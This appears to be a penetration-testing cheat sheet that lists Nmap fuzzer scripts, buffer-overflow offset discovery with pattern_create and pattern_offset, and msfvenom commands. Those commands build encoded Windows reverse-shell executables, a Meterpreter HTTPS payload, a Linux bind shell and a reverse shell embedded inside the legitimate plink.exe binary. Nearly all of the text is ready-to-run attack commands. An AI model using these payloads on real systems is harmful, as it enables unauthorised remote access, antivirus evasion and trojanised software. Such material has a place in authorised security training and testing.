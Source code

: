 #DEP and ASLR - Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR)

##NMap Fuzzer List
https://nmap.org/nsedoc/categories/fuzzer.html

##NMap HTTP Form Fuzzer
nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip

##Nmap DNS Fuzzer
nmap --script dns-fuzz --script-args timelimit=2h $ip -d


# Pattern Create and Locate

locate pattern_create
pattern_create.rb -l 2700

locate pattern_offset
pattern_offset.rb -q 39694438

## Verify exact location of EIP - [*] Exact match at offset 2606
buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90


# MSFVenom Payloads
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -o shell_reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

## Create a PE reverse shell and embed it into an existing executable
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

## Create a PE Reverse HTTPS shell
msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

## Linux Bind Shell on PORT 4444 ( connect with nc -v $ip 4444 )
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

